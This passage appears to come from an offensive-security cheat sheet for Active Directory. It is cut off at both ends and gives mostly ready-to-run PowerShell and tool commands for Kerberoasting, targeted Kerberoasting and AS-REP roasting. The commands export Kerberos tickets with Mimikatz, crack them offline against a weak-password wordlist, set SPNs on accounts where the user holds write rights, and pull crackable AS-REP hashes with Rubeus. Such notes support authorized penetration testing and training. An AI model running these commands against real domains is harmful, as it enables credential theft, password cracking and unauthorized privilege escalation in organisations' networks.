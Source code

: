 	# Export ticket using Mimikatz 
	## Copy the file name of the ticket you exported; In this case its the file path for MSSQLSvc

    Invoke-Mimikatz -Command '"kerberos::list /export"'
	
	#Crack service account password using tgsrepcrack.py
    .\tgsrepcrack.py .\10k-worst-pass.txt .\tickets\7-40a10000-sqluser@MSSQLSvc~sqlserver.dc.organicsecurity.local.kirbi
    
	# Request-SPNTicket with PowerView can be used for cracking with JTR

	python.exe .\tgsrepcrack.py .\10k-worst-pass.txt .\2-40a10000-user1@MSSQLSvc~computer.domain.localDOMAIN.LOCAL.kirbi

    ```
    

**Targetted Kerberosting**

- Find the account having write privileges for current user
    
    ```powershell
    Invoke-ACLScanner  -ResolveGUID | ?{$_.IdentityReferencename -like "*user01"}
    Invoke-ACLScanner  -ResolveGUID | ?{$_.IdentityReferencename -like "rdpusers"}
    
    ```
    
- Perform targetted SPN, where the current user has GenericAll or Write Property privilege
    
    ```powershell
    Set-DomainObject -Identity testuser01 -Set @{serviceprincipalname='ops/test'}
    
    ```
    

**ASREP-Roasting**

- Enumerate user account where Kerberos Preauth is disabled
    
    ```powershell
    Get-DomainUser -PreauthNotRequired -Verbose
    
    ```
    
- Method 1: Fetch the AS-REP Response using Rubeus
    
    ```powershell
    .\Rubeus.exe asreproast
    .\Rubeus.exe asreproast /format:hashcat /user:user01 /outfile:hash.txt
    .\Rubeus.exe asreproast /format:hashcat /outfile:hash.txt
    
    ```
    
- Method 2: Use ASREPRoast Powershell script
    
